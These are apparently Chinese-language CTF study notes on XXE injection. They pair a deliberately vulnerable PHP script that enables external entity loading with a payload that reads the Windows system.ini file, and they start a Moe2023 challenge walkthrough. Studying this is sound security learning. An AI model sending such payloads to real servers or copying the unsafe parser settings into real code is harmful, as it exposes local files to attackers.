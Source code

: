

## XXE

### 学习到的一个实验

```php
<?php
    libxml_disable_entity_loader (false);
    $xmlfile = file_get_contents('php://input');
	//这行代码从 HTTP 请求的输入流中读取 XML 数据。
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
    $creds = simplexml_import_dom($dom);
	//这行代码将 DOM 对象转换为 SimpleXML 对象。
    echo $creds;
?>
```

- **`libxml_disable_entity_loader(false)`**
  - 这个函数的作用是控制是否禁用外部实体的加载。设置为 `false` 表示允许加载外部实体。	

> 在现代 PHP 版本中，这个函数默认是禁用的（即默认值是 `true`），以防止 XXE 攻击。

- **`$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD)`**:

  - `LIBXML_NOENT` 选项会解析实体引用，这意味着如果 XML 中包含外部实体，它们将被解析并加载。

  - `LIBXML_DTDLOAD` 选项允许加载 DTD（文档类型定义），这可能会导致加载外部 DTD 文件。

我们利用漏洞，进行xxe攻击

```xml-dtd
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE creds [  
<!ENTITY goodies SYSTEM "file:///c:/windows/system.ini"> ]> 
<creds>&goodies;</creds>
```

![image-20241009122252765](https://gitee.com/bx33661/image/raw/master/path/image-20241009122252765.png)

![image-20241009122518930](https://gitee.com/bx33661/image/raw/master/path/image-20241009122518930.png)

发现成功的读取了window目录下的`system.ini`文件



## 题目

### Moe2023-了解你的座驾

![image-20241011113557304](https://gitee.com/bx33661/image/raw/master/path/image-20241011113557304.png)

抓包发现是xml格式数据：

```http
POST /index.php HTTP/1.1
Host: localhost
....
Content-Type: application/x-www-form-urlencoded
Content-Length: 68

xml_content=%3Cxml%3E%3Cname%3EMazda+rx7-FD%3C%2Fname%3E%3C%2Fxml%3E
```
